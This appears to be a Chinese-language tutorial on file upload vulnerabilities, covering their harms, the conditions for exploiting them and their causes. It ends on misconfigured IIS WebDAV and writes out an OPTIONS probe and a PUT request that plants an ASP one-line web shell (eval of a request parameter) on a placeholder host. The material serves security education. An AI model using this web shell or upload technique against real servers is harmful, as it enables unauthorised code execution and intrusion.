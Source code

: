 # 文件上传漏洞

## 漏洞危害

1. 上传文件为web脚本语言，服务器的web容器解释并执行了用户上传的脚本，导致代码执行。
2. 上传文件为flash策略文件crossdomain.xml,黑客可以绕过flash跨域请求的限制。
3. 上传文件是病毒、木马文件，黑客用以诱骗用户或者管理员下载。
4. 上传文件是钓鱼图片或者包含了脚本的图片，在某些版本的浏览器上会作为脚本执行，被用于钓鱼和欺诈。

## 利用条件

1. 上传的文件能够被web容器解释执行。所以文件上传后所在的目录需要能被web容器所覆盖到。
2. 用户能够从web上访问这个文件。如果文件上传了，但用户无法通过web方式，或者无法让web容器解释这个脚本，那么也不能称之为漏洞。
3. 用户上传的文件若被安全检查，格式化，图片压缩，文件改名，内容编码过滤等改变了内容，则也可能导致攻击不成功。

## 漏洞成因

导致文件上传的漏洞的原因较多，主要包括以下几类：

1. 服务器配置不当
2. 开源编辑器上传漏洞
3. 本地文件上传限制被绕过
4. 过滤不严或被绕过
5. 文件解析漏洞导致文件执行
6. 文件路径截断

### 漏洞成因部分详解

- 服务器配置不当

当服务器配置不当时，在不需要上传页面的情况下便可导致任意文件上传（IIS说明）开启WebDAV

对服务器发送OPTION包：

```http
OPTIONS / HTTP/1.1
  
Host: www.xxx.com
```

若返回的HTTP响应头中带有PUT、MOVE等方法时则可以确定服务器开启了WebDAV。

此时用PUT上传一个SHELL，但SHELL后缀不可以是可执行文件后缀。

```http
PUT /test.txt HTTP/1.1
Host: www.xxx.com
Content-Length: 23
   
<%eval request("a")%>
```

若服务器启用了“WebDAV”扩展，并且复选了“写入”，就可以写入txt文件了。
